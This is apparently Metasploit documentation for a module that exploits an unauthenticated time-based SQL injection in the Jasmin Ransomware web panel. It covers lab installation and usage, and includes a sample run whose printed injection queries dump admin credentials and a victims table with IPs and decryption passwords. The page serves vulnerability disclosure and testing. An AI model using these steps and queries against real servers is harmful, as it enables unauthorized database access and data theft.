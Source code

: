 ## Vulnerable Application

The Jasmin Ransomware web server contains an unauthenticated SQL injection vulnerability
within the login functionality. As of April 15, 2024 this was still unpatched, so all
versions are vulnerable. The last patch was in 2021, so it will likely not ever be patched.

Retrieving the victim's data may take a long amount of time. It is much quicker to
get the logins, then just login to the site.

### Install

create a LAMP server (using php 8.2 worked for me, 7.2 did not).
Run the following commands:

```
git clone https://github.com/codesiddhant/Jasmin-Ransomware.git
cd Jasmin-Ransomware
sudo cp -r Web\ Panel/* /var/www/html/
sudo chown www-data:www-data /var/www/html/*
sudo mysql -p
```

Execute the following SQL commands:

```
CREATE DATABASE jasmin_db;
CREATE USER 'jasminadmin'@'localhost' IDENTIFIED BY '123456';
GRANT ALL PRIVILEGES ON jasmin_db.* TO 'jasminadmin'@'localhost';
Exit
```

Now setup the database:
`sudo mysql -u jasminadmin -p123456 jasmin_db < Web\ Panel/database/jasmin_db.sql`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/jasmin_ransomware_sqli`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should contents from the SQL Database.

## Options

### VICTIMS

Pull data from the Victim's table. Defaults to `false`

### VICTIMLIMIT

Number of rows from the victim table to pull. Defaults to `nil` which pulls all rows.

## Scenarios

### Jasmin installed on Ubuntu 22.04

```
msf > use auxiliary/gather/jasmin_ransomware_sqli
msf auxiliary(gather/jasmin_ransomware_sqli) > set verbose true
verbose => true
msf auxiliary(gather/jasmin_ransomware_sqli) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(gather/jasmin_ransomware_sqli) > set victims true
victims => true
msf auxiliary(gather/jasmin_ransomware_sqli) > run

[*] Dumping login table
[*] {SQLi} Executing (select group_concat(cast(concat_ws(';',ifnull(admin,''),ifnull(creds,'')) as binary)) from master)
[*] {SQLi} Time-based injection: expecting output of length 15
[+] Dumped table contents:
Logins
======

 admin     creds
 -----     -----
 siddhant  123456

[*] Dumping victim table
[*] {SQLi} Executing (select group_concat(cast(concat_ws(';',ifnull(machine_name,''),ifnull(computer_user,''),ifnull(ip,''),ifnull(systemid,''),ifnull(password,'')) as binary)) from victims)
[*] {SQLi} Time-based injection: expecting output of length 428
[+] Dumped table contents:
Victims
=======

 machine_name     computer_user  ip              systemid                  password
 ------------     -------------  --              --------                  --------
 Bollywood        Salman Khan    47.247.223.177  df545f454f5d4f5d4af5      M9M99EvNpZVOWpy9Q8sZLHEP
 DESKTOP-37Q74QH  cyberstair     47.247.223.177  96457DF79A87C7C0008A7BE7  xAS4NinH/HQKNJwsNtTWN5yD
 FiFa             Leone Messi    47.247.223.177  cfhsfkdjkfvdd454s5g4      JDNAaz6e3oyM8cN+AGFdMl/5
 Indian Cricket   Virat Kohli    47.247.223.177  SDGFs4F4S4FD4F4545fs      3tIHrYJqqTSBpw4lgMMck1GD
 White House      Donald Trump   47.247.223.177  fgighefesdgvrd5g45rd4h    RJtCd9QqiCfBaSU0zQf84dvd

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

